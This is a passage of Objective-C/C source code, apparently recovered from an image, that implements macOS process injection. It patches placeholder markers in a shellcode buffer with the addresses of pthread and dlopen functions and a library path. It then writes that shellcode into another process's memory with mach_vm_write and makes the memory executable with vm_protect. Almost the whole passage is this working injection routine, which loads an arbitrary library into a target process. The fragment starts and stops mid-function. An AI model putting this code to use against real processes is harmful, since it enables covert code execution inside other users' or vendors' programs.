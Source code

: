 ```objectivec
extern void *_pthread_set_self;
possiblePatchLocation++;


uint64_t addrOfPthreadCreate = dlsym ( RTLD_DEFAULT, "pthread_create_from_mach_thread"); //(uint64_t) pthread_create_from_mach_thread;
uint64_t addrOfPthreadExit = dlsym (RTLD_DEFAULT, "pthread_exit"); //(uint64_t) pthread_exit;
uint64_t addrOfDlopen = (uint64_t) dlopen;

if (memcmp (possiblePatchLocation, "PTHRDEXT", 8) == 0)
{
memcpy(possiblePatchLocation, &addrOfPthreadExit,8);
printf ("Pthread exit  @%llx, %llx\n", addrOfPthreadExit, pthread_exit);
}

if (memcmp (possiblePatchLocation, "PTHRDCRT", 8) == 0)
{
memcpy(possiblePatchLocation, &addrOfPthreadCreate,8);
printf ("Pthread create from mach thread @%llx\n", addrOfPthreadCreate);
}

if (memcmp(possiblePatchLocation, "DLOPEN__", 6) == 0)
{
printf ("DLOpen @%llx\n", addrOfDlopen);
memcpy(possiblePatchLocation, &addrOfDlopen, sizeof(uint64_t));
}

if (memcmp(possiblePatchLocation, "LIBLIBLIB", 9) == 0)
{
strcpy(possiblePatchLocation, lib );
}
}

// Write the shellcode to the allocated memory
kr = mach_vm_write(remoteTask,                   // Task port
remoteCode64,                 // Virtual Address (Destination)
(vm_address_t) injectedCode,  // Source
0xa9);                       // Length of the source


if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to write remote thread memory: Error %s\n", mach_error_string(kr));
return (-3);
}


// Set the permissions on the allocated code memory
kr  = vm_protect(remoteTask, remoteCode64, 0x70, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to set memory permissions for remote thread's code: Error %s\n", mach_error_string(kr));
return (-4);
}

// Set the permissions on the allocated stack memory
kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

if (kr != KERN_SUCCESS)
{
```